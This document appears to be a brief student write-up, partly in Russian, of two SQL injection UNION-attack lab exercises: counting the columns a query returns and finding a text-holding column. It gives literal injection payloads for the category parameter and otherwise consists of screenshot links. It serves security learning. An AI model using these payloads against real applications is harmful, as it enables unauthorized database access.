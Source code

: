  Lab: SQL injection UNION attack, determining the number of columns returned by the query 
 
 Изменяем category, чтобы добавить дополнительный столбец, содержащий нулевое значение:'+UNION+SELECT+NULL,NULL--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_2.PNG)
 
 Lab: SQL injection UNION attack, finding a column containing text
 
 
Заменяем значение на '+UNION+SELECT+'abcdef',NULL,NULL--  , получаем ошибку:
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_3.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_4.PNG)
 
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_2.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_3.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_4.PNG)
 
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_2.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_3.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_4.PNG)
 
